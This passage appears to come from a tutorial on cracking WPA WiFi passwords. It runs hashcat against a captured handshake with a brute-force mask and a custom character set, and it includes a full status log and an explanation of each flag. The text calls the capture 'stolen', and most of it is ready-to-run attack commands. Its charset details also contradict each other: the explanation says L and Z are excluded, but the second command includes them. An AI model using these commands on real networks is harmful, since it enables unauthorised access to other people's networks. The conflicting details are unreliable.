`hashcat -m 22000 -a 3 handshake1.22000 -1 346789ABCDEFGHJKMNPQRTUVWXY ?1?1?1?1?1?1?1?1 -w 3 --status`

```plaintext
Session..........: hashcat
Status...........: Running
Hash.Mode........: 22000 (WPA-PBKDF2-PMKID+EAPOL)
Hash.Target......: handshake1.22000
Time.Started.....: Thu Jan 23 16:55:39 2025 (2 secs)
Time.Estimated...: Fri Feb  7 13:41:22 2025 (14 days, 20 hours)
Kernel.Feature...: Pure Kernel
Guess.Mask.......: ?1?1?1?1?1?1?1?1 [8]
Guess.Charset....: -1 346789ABCDEFGHJKMNPQRTUVWXY, -2 Undefined, -3 Undefined, -4 Undefined
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:   219.9 kH/s (69.51ms) @ Accel:16 Loops:1024 Thr:128 Vec:1
Recovered........: 0/1 (0.00%) Digests (total), 0/1 (0.00%) Digests (new)
Progress.........: 524288/282429536481 (0.00%)
Rejected.........: 0/524288 (0.00%)
Restore.Point....: 0/10460353203 (0.00%)
Restore.Sub.#1...: Salt:0 Amplifier:8-9 Iteration:1024-2048
Candidate.Engine.: Device Generator
Candidates.#1....: A8778888 -> AA8BURAN
Hardware.Mon.SMC.: Fan0: 28%, Fan1: 28%
Hardware.Mon.#1..: Util: 99%
```

To do this we make a custom character set/dictionary for hashcat to use. create a text file and put this inside. I call it custom-charset.txt but use whatever works for you.

`346789ABCDEFGHJKMNPQRTUVWXY`

Now we decrypt the stolen handshake capture to get the WiFi password.

`hashcat -m 22000 -a 3 handshake01.22000 -1 346789ABCDEFGHJKLMNPQRTUVWXYZ ?1?1?1?1?1?1?1?1 --optimized-kernel-enable -w 3 --session=my_session --status`

## Explanation

**_-m 22000:_** Specify the hash mode for WPA-PBKDF2-PMKID+EAPOL.

**_-a 3:_** Use brute-force attack mode.

**_handshake01.22000:_** The path to your .22000 file.

**_-1 346789ABCDEFGHJKLMNPQRTUVWXYZ:_** Define a custom character set directly in the command. The character set excludes problematic characters (I, O, L, S, Z) and unused numbers.

**_?1?1?1?1?1?1?1?1:_** The mask for an 8-character password.

**_--optimized-kernel-enable:_** Enables optimized kernel for better performance.

**_-w 3:_** Set workload profile to high performance.

**_--session=my_session:_** Save the session to allow pausing/resuming.

**_--status:_** Display real-time status updates.

run `hashcat --help` to get an exhaustive list of options
